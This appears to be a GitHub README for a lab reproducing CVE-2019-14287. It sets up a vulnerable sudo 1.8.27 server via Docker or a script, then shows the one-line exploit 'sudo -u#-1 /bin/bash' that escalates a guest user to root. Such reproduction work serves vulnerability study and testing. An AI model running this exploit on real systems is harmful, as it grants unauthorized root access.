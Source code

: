 # CVE-2019-14287

## About
<https://nvd.nist.gov/vuln/detail/CVE-2019-14287>


## PoC
<https://www.sudo.ws/alerts/minus_1_uid.html>


## Environment used

* Ubuntu 18.04.4 LTS
* [Sudo 1.8.27](https://www.sudo.ws/dist/sudo-1.8.27.tar.gz)


## Reproduction

* Server
    - Docker:
        ```shell script
        bash Docker\ version/start.sh
        bash Docker\ version/stop.sh  
        ```
      
    - Script:
        ```shell script
        cd Script\ version && bash installation.sh
        ```

* Terminal:
    ```shell script
    ssh <Server IP> -l guest -p 8022
    sudo -u#-1 /bin/bash 
    ```
    The result is the user *guest* as escalated to *root*.
